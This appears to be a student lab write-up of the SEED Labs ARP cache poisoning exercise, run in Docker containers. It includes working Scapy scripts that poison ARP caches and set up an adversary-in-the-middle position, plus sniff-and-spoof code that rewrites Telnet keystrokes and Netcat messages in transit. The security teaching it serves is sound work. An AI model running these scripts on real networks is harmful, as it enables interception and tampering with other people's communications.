# **06_AITM_2**

In this lab activity, we are tasked with exploring a Adversary in the Middle (AitM) attack using ARP cache spoofing. The goal of the lab is to understand how an attacker can intercept and manipulate network communications between hosts. Through the provided SeedLabs environment, we analyze the behaviour of protocols such as Telnet and Netcat and observe their security weaknesses.

---

## Tools

- SEEDlabs_VM (Ubuntu 20.04 LTS)
- Oracle Virtualbox (Version 7.2.0)

---

&nbsp;
&nbsp;
## Initial Setup
The first step was to set up our working environment, namely the lab. To do this, we [downloaded](https://seedsecuritylabs.org/labsetup.html) the SEED VM and followed the provided [setup guide](https://github.com/seed-labs/seed-labs/blob/master/manuals/vm/seedvm-manual.md).

Once the setup is complete, the working environment is ready. The remaining steps involve extracting the labsetup.zip file and following the [provided instructions](https://seedsecuritylabs.org/Labs_20.04/Files/ARP_Attack/ARP_Attack.pdf).

If we now run the ```docker ps command```, we should see the three machines that make up our small network; more precisely, the three Docker containers.



&nbsp;
&nbsp;
## Task 1: Arp Cache Poisoning

This task requires us to perform three different methods of arp spoofing.

### Task 1.A (using ARP request)
><cite>On host M, construct an ARP request packet to map B’s IP address to M's MACaddress. Send the packet to A and check whether the attack is successful or not.</cite>


To do so we need to open a shell on host M (attacker) and then execute our python code that sends the ARP request. But first we need to get the MAC address of M and A.

Find the ID of the M container:
```docker ps```


Now we can do:
```docksh cdc69```


Then:
```ip link show eth0```


we do the same for A and get:


Now we need to construct the ARP request.
Following the code skeleton provided in the [instructions](https://seedsecuritylabs.org/Labs_20.04/Files/ARP_Attack/ARP_Attack.pdf) we construct the following packet:

```py
#!/usr/bin/env python3
from scapy.all import *

A_ip = "10.9.0.5"      # Host A
B_ip = "10.9.0.6"      # Host B
M_mac = "02:42:0a:09:00:69"

E = Ether(dst="02:42:0a:09:00:05")
A = ARP(
    op=1,              # ARP request
    psrc=B_ip,         # "Comes from B"
    hwsrc=M_mac,       # use M's MAC
    pdst=A_ip          # Destination
)

pkt = E / A
sendp(pkt)

```
we use nano, to create a python file, and we put it inside the ```volumes``` folder which is shared between the VM and the containers.
```sh
nano arp_request_1A.py
```


Note now that before execution the ARP cache in A was empty:


We can now go back to the M container to execute the attack.
```sh
python3 arp_request_1A.py
```



To check if it was successful we need to look in the ARP cache of A again and see if IP-B is present with MAC-M.


As can be seen from the image the attack was successful; on host M, we constructed a forged ARP request packet using Scapy, where the source IP address was set to host B’s IP and the source MAC address to host M’s MAC. The packet was sent to host A. By inspecting host A’s ARP cache, we observed that the mapping between B’s IP address and M’s MAC address was incorrectly stored, confirming that the ARP cache poisoning attack was successful.

Note that we have specified the destination of the ethernet layer to be A since we were required to send the packet explicitly to A. In a real-world scenario we wouldn't have A's MAC address so we would have broadcasted the frame, meaning all other hosts would also receive it but probably ignore it. 

&nbsp;
### Task 1.B (using ARP reply)
><cite>On host M, construct an ARP reply packet to map B’s IP address to M’s MAC address. Send the packet to A and check whether the attack is successful or not. Try the attack under the following two scenarios, and report the results of your attack:</cite>

&nbsp;
#### Scenario 1: B’s IP is already in A’s cache.
To setup this scenario we first need to fill A's Arp cache with B's IP and MAC since now it is empty. We can do so easily by using ```ping``` to ping B from A.

```ping 10.9.0.6``` 

if we now run ```arp -n``` on A we see the entry for B.



Now we construct the code to execute taask 1.B:

```py
#!/usr/bin/env python3
from scapy.all import *

A_ip = "10.9.0.5"      # Host A
B_ip = "10.9.0.6"      # Host B
M_mac = "02:42:0a:09:00:69"

E = Ether(dst="02:42:0a:09:00:05")
A = ARP(
    op=2,              # ARP request
    psrc=B_ip,         # "Comes from B"
    hwsrc=M_mac,       # use M's MAC
    pdst=A_ip,         # Destination IP
    hwdst="02:42:0a:09:00:05" # Dest Mac
)

pkt = E / A
sendp(pkt)

```

We again store this code inside the ```volumes``` folder so it can be accessed and executed by M.


Run the python script:


A's ARP cache before and after script execution by M:



In Scenario 1, Host A’s ARP cache already contained a valid mapping for Host B. After sending a forged ARP reply from Host M, the existing entry was overwritten, and B’s IP address was incorrectly associated with M’s MAC address. This demonstrates that ARP replies are trusted even when correct entries already exist.

&nbsp;
#### Scenario 2: B’s IP is not in A’s cache

First we clear A's Cache with ```arp -d 10.9.0.6```.



We then run the same python ARP reply script as in scenario 1.


In the cache of A we have: 


The cache remains empty, this indicates that if no ARP entry exists, host A ignores unsolicited ARP replies to prevent attackers from creating fake mappings; however, if an entry already exists, unsolicited replies are accepted as updates, which makes ARP poisoning possible.

&nbsp;
### Task 1.C (using ARP gratuitous message)
><cite>On host M, construct an ARP gratuitous packet, and use it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios as those described in Task 1.B.</cite>

To have B inside A's ARP Cache we first ping B again.


Let's construct a gratuitous ARP message that maps B's IP to M's MAC:

---

A gratuitous ARP has the following key characteristics: 

- The source and destination IP addresses are the same, and they are the IP address of the host issuing the gratuitous ARP.

-  The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC address (ff:ff:ff:ff:ff:ff).

---

```py
#!/usr/bin/env python3
from scapy.all import *

B_ip = "10.9.0.6"      # Host B
M_mac = "02:42:0a:09:00:69"

E = Ether(dst="ff:ff:ff:ff:ff:ff")
A = ARP(
    op=1,              # ARP request
    psrc=B_ip,         # "Comes from B"
    hwsrc=M_mac,       # M claims to own B's IP
    pdst=B_ip,         # Destination IP
    hwdst="ff:ff:ff:ff:ff:ff" # Dest Mac
)

pkt = E / A
sendp(pkt)

```

We now create a python file for gratuitous ARP in the ```volumes``` folder:


Sending the packet:



ARP cache in A, before and after:




><cite>Clearing A's ARP cache to try to send the packet again but with A's cache empty, as per requirement:</cite>




After sending the packet again we check A's ARP cache again:


As can be seen host A does not create new ARP cache entries in response to gratuitous ARP requests, but it accepts them as updates for existing entries. This policy limits ARP cache injection while still allowing legitimate address changes, yet it remains vulnerable to ARP poisoning once an entry exists.


&nbsp;

&nbsp;
&nbsp;
## TASK 2: MITMAttackonTelnet using ARP Cache Poisoning

To complete the task we first need to setup host M to continuously send spoofed ARP replies to both A and B, poisoning their ARP caches so that each host associates the other’s IP address with M’s MAC address, enabling a man in the middle attack. 

We need to do so continously because ARP cache entries expire and legitimate traffic may overwrite our entries.

&nbsp;
### Step 1 (Launch the ARP cache poisoning attack)
To do so we will write a python script that complies with the requirements. Note that we will use ARP replies to poison our victims, basically assuming an entry already exists which is reasonable.
ARP replies are preferred over ARP requests for cache poisoning because they are more consistently accepted as updates to existing ARP entries, whereas unsolicited ARP requests are often ignored or restricted by modern operating systems.

So to begin we ping A from B and B from A to fill the ARP caches.



We can now construct a python executable that will constantly send packets, poisoning A and B and establishing M as the AITM. 

```py
#!/usr/bin/env python3
from scapy.all import *
import time

# IP addresses
A_ip = "10.9.0.5"        # Host A
B_ip = "10.9.0.6"        # Host B

# MAC addresses
A_mac = "02:42:0a:09:00:05"  # Host A MAC
B_mac = "02:42:0a:09:00:06"  # Host B MAC
M_mac = "02:42:0a:09:00:69"  # Host M MAC

# -------- ARP reply to poison A (B -> M) --------
E_to_A = Ether(dst=A_mac)
ARP_to_A = ARP(
    op=2,                # ARP reply
    psrc=B_ip,           # Claim: I am B
    hwsrc=M_mac,         # M's MAC
    pdst=A_ip,           # Target: A
    hwdst=A_mac
)

pkt_to_A = E_to_A / ARP_to_A

# -------- ARP reply to poison B (A -> M) --------
E_to_B = Ether(dst=B_mac)
ARP_to_B = ARP(
    op=2,                # ARP reply
    psrc=A_ip,           # Claim: I am A
    hwsrc=M_mac,         # M's MAC
    pdst=B_ip,           # Target: B
    hwdst=B_mac
)

pkt_to_B = E_to_B / ARP_to_B

print("[*] Starting ARP cache poisoning (full control)... Press Ctrl+C to stop.")

while True:
    sendp(pkt_to_A)
    sendp(pkt_to_B)
    time.sleep(5)

```

With this code host M explicitly constructs Ethernet and ARP reply packets and sends them periodically to both A and B, causing each host to associate the other’s IP address with M’s MAC address, establishing an adversary in the middle position.

We can now create the python file inside the ```volumes``` folder:


Executing the attack from M (bottom right) and viewing the ARP caches of A (top left) and B (top right):



We can see we successfuly ran the MITM attack.

&nbsp;
### Step 2 (Testing)

We are required to turn off IP forwarding on Host M using the following command: 

```sh
sysctl net.ipv4.ip_forward=0
```


We then need to observe what happens in Wireshark when we ping A and B between eachother. 



Wireshark captures show repeated spoofed ARP replies advertising both 10.9.0.5 and 10.9.0.6 as being mapped to M’s MAC address, confirming successful ARP cache poisoning. Subsequently, ICMP echo requests sent between hosts A and B are observed arriving at host M, but no echo replies are returned. Since IP forwarding on M is disabled, the packets are not forwarded to the intended destination, causing communication between A and B to fail.



&nbsp;
### Step 3 (Turn on IP forwarding)
><cite>Now we turn on the IP forwarding on Host M, so it will forward the packets between A and B.</cite>

This can be done by running the following command on M:

```sh
sysctl net.ipv4.ip_forward=1
```



We now repeat the testing from ```step 2``` and ping A and B between eachother, while observing traffic on Wireshark.




THis time, Wireshark captures show that ICMP echo requests sent between hosts A and B were successfully forwarded through M. The decrease in TTL values confirms that packets traversed M as an intermediate router.

Note that some ICMP echo requests appear as “no response found” because the replies are observed on a different interface within the same capture (capturing was done on "any" interface).



The presence of ICMP Redirect packets originating from M (10.9.0.105) confirms that IP forwarding is enabled on the attacking machine; the OS is just attempting to optimize the network path by informing the victims that they are on the same subnet and should communicate directly, unaware that the malicious routing is intentional.


&nbsp;
### Step 4 (Launch the MITM attack)

The first thing we need to do is we need to create a Telnet connection between A and B. To do so we do the following: ```telnet 10.9.0.6```



Now, we are instructed to turn off IP forwarding on M using the previously mentioned command. 



When typing characters in Host A’s Telnet window, no characters were displayed on the screen. This behavior occurs because Telnet relies on a round trip communication model: each keystroke is sent as a TCP packet from Host A to Host B, and the character is only displayed after Host B echoes it back to the client. 
Due to the ARP cache poisoning attack, all traffic between Hosts A and B is redirected through Host M. With IP forwarding disabled, Host M receives the packets from Host A but does not forward them to Host B, preventing the echo response from returning. As a result, the Telnet client on Host A displays no output, confirming that Host M has successfully positioned itself as a man in the middle and has full control over the communication channel.


Now we can proceed by crating the sniffAndSpoof.py program, starting from the skeleton provided in the [provided instructions](https://seedsecuritylabs.org/Labs_20.04/Files/ARP_Attack/ARP_Attack.pdf).


To implement the adversary in the middle Telnet attack, the provided sniff‑and‑spoof program was modified to selectively intercept and alter TCP packets exchanged between Host A and Host B. The packet filter was restricted to TCP traffic on port 23 to capture only Telnet packets and to exclude packets generated by Host M itself (```not ether src MAC_M; not ip src IP_M```), preventing packet duplication and performance degradation. 

For packets sent from Host A to Host B, a new IP/TCP packet was reconstructed based on the captured packet, with the original TCP payload removed and replaced by a forged payload consisting of the character ```‘Z’```. The IP and TCP checksums were deleted so that Scapy could automatically recompute valid values for the modified packet. Packets sent from Host B to Host A were forwarded without modification to preserve normal Telnet responses. This design ensures that every keystroke typed by the user on Host A is altered during transit, causing the Telnet client to display only ‘Z’ characters, demonstrating a successful application layer adversary in the middle attack.


The modified code:
```py
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"          # Host A (Telnet client)
MAC_A = "02:42:0a:09:00:05"

IP_B = "10.9.0.6"          # Host B (Telnet server)
MAC_B = "02:42:0a:09:00:06"

IP_M = "10.9.0.105"        # Host M (attacker)
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
    if IP not in pkt or TCP not in pkt:
        return

    # ---------------- A -> B (modify payload) ----------------
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:

        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        del newpkt[TCP].payload

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            newdata = b'Z' * len(data)   # Replace each character with 'Z'
            send(newpkt / newdata)
        else:
            send(newpkt)

    # ---------------- B -> A (forward unchanged) ----------------
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:

        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        send(newpkt)


# Capture only Telnet traffic and exclude packets sent by M
f_ilter = (
    "tcp port 23 and "
    "not ether src " + MAC_M + " and "
    "not ip src " + IP_M
)

print("[*] Sniffing and spoofing Telnet traffic...")
sniff(iface="eth0", filter=f_ilter, prn=spoof_pkt)

```

We can now create a new python  script in the ```volumes``` folder:



We can now execute the program on M, while simultanously MITMabTask2.py is running. (Sends arp replies every 5s).

><cite>During initial testing, the Telnet client continued to display the original characters typed by the user, indicating that the spoofed packets were not taking effect. 

After some troubleshooting it was found that this occurred because IP forwarding on Host M was still enabled, allowing the kernel to forward the original TCP packets from Host A to Host B unchanged. As a result, both the original and spoofed packets reached Host B, and the unmodified packet was processed first. </cite>

After disabling IP forwarding on Host M, the original packets were no longer forwarded, and only the spoofed packets generated by the SniffAndSpoof program reached Host B. Consequently, every character typed in the Telnet client was replaced with the character ‘Z’, confirming successful application‑layer manipulation by the adversary in the middle attacker.



&nbsp;

&nbsp;
&nbsp;
## TASK 3: MITM Attack on Netcat using ARP Cache Poisoning

This should be simmilar to the previous TASK. Telnet was an interactive protocol in which each keystroke typically generates an individual TCP packet, and characters are displayed only after being echoed back by the server. 

In contrast, Netcat buffers user input and transmits an entire line of text in a single TCP packet once the ```Enter``` key is pressed. As a result, Telnet attacks can modify individual characters, while Netcat attacks must carefully modify substrings within the payload while preserving payload length to maintain correct TCP sequence numbers.

As required we first set ```─sysctl net.ipv4.ip_forward=1``` on M to enable communication between A and B. 

Now we can establish a Netcat connection using the provided commands:


As stated earlier Netcat sends the TCP packet once enter is pressed:



We now turn off IP forwarding again in order to be prepared for script execution. 

We will then deploy a python script to intercept TCP packets sent from A to B on port 9090. For each captured packet, the TCP payload will be modified by replacing every occurrence of the attacker’s first name with a sequence of the character ‘A’ of equal length. 

Preserving the payload length will ensure that TCP sequence numbers remain consistent and prevent connection disruption. Packets sent from Host B to Host A should be forwarded without modification. 



The code: 

```py
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
IP_B = "10.9.0.6"
IP_M = "10.9.0.105"

NETCAT_PORT = 9090
MY_NAME = b"Jure"
REPLACEMENT = b"A" * len(MY_NAME)  # same length, required!

MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
    if IP not in pkt or TCP not in pkt:
        return

    # -------- A -> B (modify payload) --------
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B and pkt[TCP].dport == NETCAT_PORT:

        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        del newpkt[TCP].payload

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load

            # Replace occurrences of your name
            newdata = data.replace(MY_NAME, REPLACEMENT)

            send(newpkt / newdata)
        else:
            send(newpkt)

    # -------- B -> A (forward unchanged) --------
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A and pkt[TCP].sport == NETCAT_PORT:

        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        send(newpkt)


# Capture only Netcat traffic, exclude packets sent by M
f_ilter = (
    f"tcp port {NETCAT_PORT} and "
    f"not ether src {MAC_M} and "
    f"not ip src {IP_M}"
)

print("[*] Netcat MITM sniff-and-spoof running...")
sniff(iface="eth0", filter=f_ilter, prn=spoof_pkt)

```




Experimental results showed that messages typed on Host A appeared altered on Host B, while the TCP connection remained intact, demonstrating a successful application‑layer man in the middle attack on Netcat.

&nbsp;
## Conclusion
